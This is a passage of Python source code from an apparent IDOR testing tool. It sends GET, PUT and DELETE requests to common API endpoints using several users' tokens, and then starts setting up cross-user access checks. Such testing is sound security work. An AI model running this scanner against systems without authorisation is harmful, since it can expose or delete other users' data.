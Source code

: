 ```python
        print("\n[+] Discovering IDOR vulnerable endpoints...")
        
        # Common IDOR-prone endpoints
        test_endpoints = [
            {'pattern': '/api/tasks/{id}', 'methods': ['GET', 'PUT', 'DELETE']},
            {'pattern': '/api/comments/{id}', 'methods': ['GET', 'PUT', 'DELETE']},
            {'pattern': '/api/users/{id}', 'methods': ['GET', 'PUT']},
            {'pattern': '/api/files/{id}', 'methods': ['GET', 'DELETE']},
            {'pattern': '/api/orders/{id}', 'methods': ['GET', 'PUT', 'DELETE']},
            {'pattern': '/api/invoices/{id}', 'methods': ['GET']},
            {'pattern': '/api/reports/{id}', 'methods': ['GET']},
            {'pattern': '/api/messages/{id}', 'methods': ['GET', 'DELETE']}
        ]
        
        vulnerable_endpoints = []
        
        for endpoint in test_endpoints:
            print(f"  Testing endpoint pattern: {endpoint['pattern']}")
            
            for method in endpoint['methods']:
                # Test with different user tokens
                for user, token in self.auth_tokens.items():
                    self.session.headers.update({'Authorization': f'Bearer {token}'})
                    
                    # Test access to objects 1-10
                    for obj_id in range(1, 11):
                        url = f"{self.base_url}{endpoint['pattern'].format(id=obj_id)}"
                        
                        try:
                            response = self.session.request(method, url)
                            
                            if response.status_code == 200:
                                vulnerable_endpoints.append({
                                    'endpoint': endpoint['pattern'],
                                    'method': method,
                                    'object_id': obj_id,
                                    'user': user,
                                    'response_size': len(response.text)
                                })
                                print(f"    ✓ {method} {url} - Accessible by {user}")
                                
                        except Exception as e:
                            continue
        
        return vulnerable_endpoints
    
    def test_cross_user_access(self, endpoint_pattern, method='GET'):
        """Test cross-user access for IDOR"""
        print(f"\n[+] Testing cross-user access for {method} {endpoint_pattern}")
        
        results = []
        users = list(self.auth_tokens.keys())
        
        # Create objects as different users and test cross-access
        for creator_user in users:
            creator_token = self.auth_tokens[creator_user]
            
            # Create an object as this user (if it's a creation endpoint)
            if method in ['PUT', 'POST'] and 'tasks' in endpoint_pattern:
                create_data = {
                    'title': f'Private task by {creator_user}',
                    'description': f'This should only be accessible by {creator_user}',
                    'priority': 'HIGH'
```